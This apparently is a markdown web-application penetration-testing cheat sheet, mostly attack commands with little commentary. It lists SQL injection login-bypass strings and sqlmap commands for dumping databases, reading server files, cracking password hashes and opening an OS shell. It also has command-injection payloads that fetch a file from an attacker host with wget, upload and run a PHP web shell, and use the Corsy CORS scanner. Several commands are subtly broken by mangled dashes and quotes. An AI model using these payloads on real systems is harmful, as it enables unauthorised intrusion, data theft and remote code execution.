 # WebApp

## SQLInjections

Common Injections for Login Forms:
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```

## domain-to-webapp
```
./webAppChecker www.example.com ./ouput_dir ./scope.txt
```

## SQLMAP

Automated scan
```
sqlmap -u http://example.com –forms –batch –crawl=10 –cookie=jsessionid=54321 –level=5 –risk=3
```

Targeted scan
```
sqlmap -u http://example.com -p PARAM –data=POSTDATA –cookie=COOKIE –level=3 –current-user –current-db –passwords –file-read=”/var/www/blah.php”
```

Scan url for union AND error based injection with MYSQL backend AND use a random user agent AND database dump
```
sqlmap -u “http://example.com/vuln.php?id=1” –dbms=mysql –tech=U –random-agent –dump
```

Find forms for injections
```
sqlmap -o -u “http://meh.com/form/” –forms
```

Dump + crack hashes for table users on database-name
```
sqlmap -o -u “http://meh/vuln-form” –forms -D database-name -T users –dump
```

Flushes the session
```
sqlmap --flush session
```

Attempts to exploit the “user” field using boolean technique
```
sqlmap -p user --technique=B
```

Capture a request via Burp Suite, save it to a file, and use this command to let sqlmap automate everything. Add –os-shell at the end to pop a shell if possible
```
sqlmap -r <captured request>
```

## Command Injection

File Traverse
```
website.com/file.php[?path=/]
```

Test HTTP options using curl
```
curl -vX OPTIONS [website]
```

Upload file using CURL to website with PUT option available
```
curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0
```

Transfer file
```
?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;
```

Activate shell file
```
; php -f filelocation.php;
```

## Corsy
* Scans for all known misconfigurations in CORS implementations.

Standard scan
```
python3 corsy.py -u https://example.com
```
Scan URLs from a file
```
python3 corsy.py -i /path/urls.txt
```
Scan URLs from stdin
```
cat urls.txt | python3 corsy.py
```
Number of threads
```
python3 corsy.py -u https://example.com -t 20
```
Delay between requests
```
python3 corsy.py -u https://example.com -d 2
```
Export results to JSON
```
python3 corsy.py -i /path/urls.txt -o /path/output.json
```
Custom HTTP headers
```
python3 corsy.py -u https://example.com --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```
